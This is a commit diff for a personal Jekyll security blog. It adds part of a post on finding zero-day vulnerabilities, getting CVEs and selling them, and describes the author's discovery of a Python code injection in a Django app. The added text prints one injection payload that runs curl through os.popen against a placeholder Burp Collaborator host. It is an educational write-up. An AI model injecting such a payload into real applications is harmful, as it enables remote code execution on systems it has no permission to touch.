

Before and after one commit to Stuuxx/stuuxx.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 900 px high, scrolled down 647 px, cut to the strip 21-900 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; the list of posts is cut into pages by our own code; some of the changed lines change nothing that is shown.

Commit message:
newpost2

```diff
--- a/_posts/2024-06-11-from-discovery-to-reward-how-to-find-zero-day-vulnerabilities-sell-them-and-obtain-cves.markdown
+++ b/_posts/2024-06-11-from-discovery-to-reward-how-to-find-zero-day-vulnerabilities-sell-them-and-obtain-cves.markdown
@@ -1,7 +1,7 @@
 ---
 layout: post
 title: "From Discovery to Reward: How to Find Zero-Day Vulnerabilities, Sell Them, and Obtain CVEs"
-description: "Today, we will explore a crucial topic in the world of offensive security: zero-day vulnerabilities. We will discuss how to conduct research to identify these vulnerabilities, methodologies to stay one step ahead, and how to sell your zero-day or request a CVE for a vulnerability."
+description: "Today, we will explore a crucial topic in the world of offensive security: zero-day vulnerabilities."
 date:   2024-06-11 11:01:35 +0300
 image:  '/images/514.jpg'
 tags:   [enumeration, exploitation, cve]
@@ -17,13 +17,11 @@
 These vulnerabilities are highly sought after by malicious hackers because they can cause massive damage, affecting numerous companies that use the vulnerable technology. The impact can be devastating, compromising sensitive data, disrupting operations, and resulting in substantial financial losses.
 
 ### My Journey with Zero-Day Vulnerabilities
-
 A year ago, I realized that an effective way to gain recognition and demonstrate my skills was to find zero-day vulnerabilities, as they could become CVEs attributed to me. With this in mind, I started researching methods to identify these vulnerabilities and eventually achieve my first CVEs. However, I found it challenging to find resources that guided me along this path.
 
 I persisted, getting hands-on and using enumeration techniques to identify potential software for research. This effort resulted in my first CVEs. So far, I have obtained a total of seven, with the most critical being: [CVE-2023-2043] and [CVE-2023-2524]. Some of these vulnerabilities were also discovered through Bug Bounty programs.
 
 ### How to Find Zero-Day Vulnerabilities and How I Discovered a Critical Code Injection Vulnerability
-
 #### Step-by-Step Process:
 1. Software Enumeration: Research and identify promising software.
 2. Existing Vulnerability Check: Consult databases like exploit-db and NIST to ensure the chosen software does not have cataloged vulnerabilities.
@@ -37,7 +35,45 @@
 To start enumerating some software, I used several research methods, such as:
 
 * Google Search:
-Examples: "download management software", "download automation software"
+Examples: "download management software", "download automation software".
 This helps identify popular software in various categories.
 
 ![]({{site.baseurl}}/images/700.jpg)
+
+* GitHub:
+Use specific tags and dorks to find relevant software.
+
+![]({{site.baseurl}}/images/701.jpg)
+
+
+* Mitre CVE List:
+Search for types of vulnerabilities or any other keyword.
+https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=software
+
+![]({{site.baseurl}}/images/702.jpg)
+
+
+I focused on finding one that could be run locally via the web. After identifying a promising software, I checked for any known vulnerabilities using exploit-db and NIST. Finding no cataloged vulnerabilities, I downloaded and installed the software on my computer (I recommend using a VM to avoid compromising the host system).
+
+### Testing and Discovery of the Vulnerability
+With the application running, I began testing as in a typical web pentest. I conducted various injection attempts, including XSS and SQL Injection, and rigorously tested the application's access controls. During the normal use of the application, I carefully observed the requests made with each action.
+
+After an intense day of testing, I noticed a parameter with suspicious values: a Python list containing specific strings. Knowing that the application used the Django framework, I started to explore this potential vulnerability more deeply. Through a series of detailed tests, I identified a critical Python Code Injection vulnerability.
+
+> Code injection occurs when an attacker can execute arbitrary commands on the system by injecting them into a vulnerable program. This vulnerability arises when an application transmits unsafe user data (e.g., forms, cookies, and HTTP headers) to a system shell. Common scenarios include passing unsanitized input directly to system commands.
+>
+
+#### Exploitation Example:
+![]({{site.baseurl}}/images/703.jpg)
+
+To identify the vulnerability, I used a payload that imported the os library and executed a curl command pointing to my Burp Collaborator. The payload used was:
+
+{% highlight js %}
+    eval(compile("""for x in range(1):\n import os\n os.popen(r'curl http://BURPCOLLABORATOR').read()""",'','single'))
+{% endhighlight %}
+
+I injected this payload into the suspicious parameter. Upon checking the Burp Collaborator, I confirmed the receipt of the request, validating the existence of the vulnerability.
+
+![]({{site.baseurl}}/images/704.jpg)
+
+![]({{site.baseurl}}/images/705.jpg)
```
Also changed, not shown: images/700.jpeg (added), images/700.jpg (deleted), images/701.jpg (added), images/702.jpg (added), images/703.jpg (added), images/704.jpg (added), images/705.jpg (added).
